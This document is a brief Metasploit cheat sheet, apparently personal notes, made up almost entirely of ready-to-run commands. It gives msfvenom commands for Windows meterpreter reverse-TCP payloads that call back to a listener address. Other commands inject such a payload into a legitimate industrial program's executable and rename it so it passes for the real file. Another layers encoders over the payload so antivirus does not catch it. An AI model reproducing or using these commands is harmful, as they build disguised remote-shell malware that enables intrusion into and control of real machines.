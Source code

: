 ### Execute a command
execute -if systeminfo

### Scan for Vulns/0days
msfpescan - windows
msfmachscan - Mac
msfelfscan - unix 

##Payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.75.1 LPORT=8080 -f exe -a x86 --platform windows -o installer.exe


### Payload inject into real file 
wget website/download.exe
msfvenom -p windows/meterpreter/reverse_tcp -f exe -a x86 -o tmp.exe -k -x 'Smartline modbus.exe'
mv tmp.exe SmartLineModBus.exe 	


#### Double encoded payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.75.1 LPORT=8080 -a x86 --platform windows -e x86/shikata_ga_nai -i 100 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 200 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 138 -f exe -o new_payload.exe
